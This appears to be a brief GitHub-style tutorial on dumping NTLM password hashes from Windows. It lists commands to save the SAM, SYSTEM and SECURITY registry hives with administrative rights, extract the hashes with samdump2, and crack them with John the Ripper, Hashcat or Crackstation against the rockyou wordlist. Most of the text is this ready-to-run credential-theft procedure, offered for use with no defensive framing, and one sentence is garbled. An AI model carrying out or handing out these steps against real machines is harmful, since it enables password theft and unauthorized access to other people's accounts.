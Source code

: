 

# Dumping NTLM Hashes
#### Step 1: Save the Registry Hives
📝 Make sure you have administrative or SYSTEM privileges to run these commands.

```bash
# Stores user password hashes
reg save HKLM\SAM SAM   

# Contains the boot key used to decrypt the hashes
reg save HKLM\SYSTEM SYSTEM 

# May be used for further secrets (e.g., LSA secrets
reg save HKLM\SECURITY SECURITY 
```
#### Step 2: Extract Hashes Using `samdump2`
Once you have the `SAM` and `SYSTEM` hives, extract the hashes with: 

```
samdump2 SYSTEM SAM
```
#### Step 3: Crack the Hashes
I take the LM code of  and decode it through online site _Crackstation,_ you guys can try it with offline tools like: **_JohnTheRipper_** or **_Hashcat_**.
```bash
# _JohnTheRipper_
john --format=nt hash.txt --wordlist=rockyou.txt

#_Hashcat_
`hashcat -m 1000 hash.txt rockyou.txt`
```
